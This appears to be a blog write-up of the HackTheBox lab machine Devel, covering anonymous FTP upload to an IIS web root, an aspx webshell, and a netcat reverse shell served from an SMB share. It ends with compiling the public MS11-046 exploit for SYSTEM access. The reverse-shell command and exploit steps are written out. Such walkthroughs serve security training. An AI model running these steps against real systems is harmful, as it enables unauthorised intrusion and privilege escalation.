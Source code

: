 ```yaml
---
layout: default
title: HackTheBox - Devel Writeup
permalink: /htb/devel
---
```


# Devel

> **Name:** Devel
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Devel](https://www.hackthebox.eu/home/machines/profile/3) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding in betwteen work engagements. As it was so simple my notes consisted of the name and IP address and nothing else, so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.5 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/devel/scan-results.png)


## Enumeration

Looking at the results from the Nmap scan a few things should stand out to you. The ftp service allows anonymous login, and the Nmap scripts that were run have given a directory listing with the following:

* aspnet_client
* iisstart.htm
* welcome.png

These look like the default files you would find in the root of a webserver on Windows, this is backed up by Nmap identifying IIS 7.5 running on port 80. The version of IIS should also stand out, this information can be used to give a good idea of which operating system is in use. With IIS 7.5 being the default on Server 2008R2, and as an additional feature you can turn on in Windows 7. 

The next step is to confirm that it is possible to upload a file via anonymous ftp access, and retrieve it via the web server. This will confirm the suspicions about the ftp giving us access to the web server root directory. We can quickly make a test file with the following command:

``` echo "Tiro's Super Secret Test" > Tiro.txt ```

All that command does is echo the text of your choice into a file of your choice, and if the file doesn't exit it will create it. Next up, is to connect to the ftp server and upload the file. 

![FTP Upload]({{site.url}}/assets/devel/ftp-upload.png)

The process shown above began by using the following command to connect to the ftp server:

* ``` ftp 10.10.10.5 ```
* When prompted for a username enter ``` anonymous ```
* When prompted for password put whatever you want
* Once ``` ftp > ``` appears you can upload your file with ``` put <filename> ```
* Using ``` ls ``` after the upload completes gives you confirmation that it is there

Now it is possible to browse to ``` http://10.10.10.5/Tiro.txt ``` and check if the file is there.

![Test Upload]({{site.url}}/assets/devel/test-text.png)

Whoop! It works, so what could possibly go wrong with allowing someone to upload files to the root directory of a web server? 


## Command Execution

A quick check of ``` webshells ``` on Kali gives a list of types of webshells available and changes that to your current directory.

![Web Shells]({{site.url}}/assets/devel/web-shells.png)

Now remember at the beginning when Nmap highlighted that the web server was IIS 7.5. Well that piece of information is now pretty useful as it gives an understanding on what languages the server is likely to understand and execute. As it's Windows and IIS picking an aspx webshell is a good way forward. Kali has one available in the aspx directory that can quickly be copied to your working directory ready to be uploaded using the ftp client. 

Once uploaded it is possible to browse to ``` http://10.10.10.5/cmdasp.aspx ``` to access it. This will give a very simple webpage with a text box for user input, and an execute button. 

![Empty Web Shell]({{site.url}}/assets/devel/blank-webshell.png)

How this works, is that whatever the user puts into the ``` command ``` field is taken and passed as an argument to ``` cmd.exe /c ``` when the execute button is pressed. The output is then displayed to screen, as shown with ``` whoami ``` in this example.

![Whoami]({{site.url}}/assets/devel/whoami.png)


## Get a Shell

Now that command execution is confirmed the next step is to look at a way of getting a full shell on the box. There are a few ways you can do this, like uploading a msfvenom payload and executing it, or running a powershell one-liner (a really long one liner). But for this one I am going to use a smbserver to host netcat and execute a reverse shell command. 

The smbserver is setup using the impacket-smbserver script with the following command:

``` impacket-smbserver -smb2support <share name> <directory to share> ```

Just make sure that nc.exe is in the directory you share! You can find where it is with ``` locate nc.exe ``` and then copy it to your working directory. Then run the command to setup your smb server. 

![Share Setup]({{site.url}}/assets/devel/setup-share.png)

Once it is setup a listener is setup using netcat:

``` nc -nlvp 443 ```

Then the netcat reverse shell command is run. 

``` \\10.10.14.33\tiro\nc.exe -e cmd.exe 10.10.14.33 443 ```

This looks a bit different to usual, but only because it is passing the network share location of nc.exe. The incoming request to the smb server should be seen in the terminal output:

![Accessing Share]({{site.url}}/assets/devel/accessing-share.png)

The listener will then catch the incoming connection and give a command shell. 

![Shell]({{site.url}}/assets/devel/shell-catching.png)


## Privilege Escalation

As we are a low privileged user it is a good idea to do some more enumeration to find potential methods of escalating privileges. Whilst I was preparing for my OSCP I found two good blog posts that were very useful for Windows privilege escalation, and gave me methods to solve pretty much every Windows box in the labs:
* [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/16.html)
* [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

There are also multiple scripts out there that can automate this process and speed up spotting the path to take, but I recommend taking some time to follow through those blogs and checking all the things they mention. It can give you a good idea of what is normal, what isn't normal and will help to spot those unusual configurations that you can abuse. 

The first command that both blogs suggest is ``` systeminfo ``` as this will give a lot of information about the target such as the patching level. The output from this command is shown below, and the most noticeable thing is that no hotfixes have been applied to it!

![Systeminfo]({{site.url}}/assets/devel/system-info.png)

A very simple google search for the terms privesc and the OS version brings some promising results. 

![Search Results]({{site.url}}/assets/devel/ms11-046.png)

The top result is also in exploitdb, so it is already available on Kali via searchsploit. The code is also well commented and explains exactly how to compile it. However, you may have to install mingw-64 to be able to compile it. Once installed it is compiled with this command:

``` i686-w64-mingw32-gcc 40564.c -o tiro.exe -lws2_32 ```

This is the same command that is detailed in the comments of the programme. The ```40564.c file``` is a straight copy from exploitdb and didn't require any modifications. Once it is compiled it can be placed into the directory that the smb server is running and it can be executed to give that lovely system shell. 

![Yay System]({{site.url}}/assets/devel/system.png)

A fun box that is pretty simple in each step and only needs basic enumeration to find the way forward. 

